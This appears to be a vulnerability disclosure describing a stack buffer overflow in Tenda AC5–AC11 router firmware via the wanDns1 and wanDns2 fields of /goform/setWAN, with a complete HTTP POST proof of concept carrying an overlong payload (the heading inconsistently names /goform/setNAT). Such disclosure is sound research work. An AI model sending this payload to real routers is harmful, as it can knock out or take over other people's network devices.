

# Tenda Router Vulnerability

This vulnerability exists in  module `wanBasicCfg` of `/goform/setNAT` and affects multiple devices of the Tenda Router. Equipment models include AC5, AC6, AC7, AC8, AC10, AC11. It affects several firmware versions, including the latest version number published on the official website. And it is RTOS system.

[https://www.tenda.com.cn/searchdown/AC.html](https://www.tenda.com.cn/searchdown/AC.html)

## Vulnerability description

（The pseudocode for the example is the last version of AC6）

On the `/goform/setWAN` page, there is a stack overflow vulnerability that allows an attacker to execute arbitrary code with a well-designed POST request, or to complete a denial of service attack.

1. First get WANType, and enter the vulnerability area when its value is static.
2. Where user input wanDns1 and wanDns2 are unlimited, and their variables are respectively in v14 and v15.
3. `sprintf (v39, "%s %s", v14, v15);` After processing, placing the v39 variable causes a buffer overflow.



## POC

```
POST /goform/setWAN HTTP/1.1
Host: 192.168.0.1
Content-Length: 208
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiRelay&wifiRelayType=disabled&module2=wanBasicCfg&wanType=static&wanPPPoEUser=&wanPPPoEPwd=&wanIP=192.168.0.1&wanMask=255.255.255.240&wanGateway=192.168.0.254&wanDns1=chumen77777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777&wanDns2=chumen88888888
```

### Verify

Vulnerability demo


If the number of characters were longer, it would be enough to overflow.

### Acknowledgment

Credit to @[chumen77](https://github.com/chumen77) and @[peanuts](https://github.com/peanuts62).
